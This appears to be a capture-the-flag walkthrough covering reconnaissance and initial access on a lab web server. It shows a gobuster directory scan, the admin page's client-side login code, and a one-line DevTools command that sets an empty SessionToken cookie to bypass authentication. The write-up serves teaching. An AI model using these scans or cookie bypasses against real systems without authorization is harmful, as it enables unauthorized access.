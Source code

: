 Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  
/admin                (Status: 301) [Size: 42] [--> /admin/]  
/css                  (Status: 301) [Size: 0] [--> css/] 
```

Also see: [gobuster.log](gobuster.log)

## Gaining Access

Started by looking at `/admin/` page to see if there was anything exploitable.

### Unprivileged Access

Javascript on the `/admin/` page has a simple check (note the `else` clause):

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Basically, if the `SessionToken` cookie is set, that is all you need to be "logged in". This is the [OWASP definition of Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication).

To get around this, we go into Developer Tools (<kbd>F12</kbd>) to execute:

```javascript
Cookies.set("SessionToken", "")
```

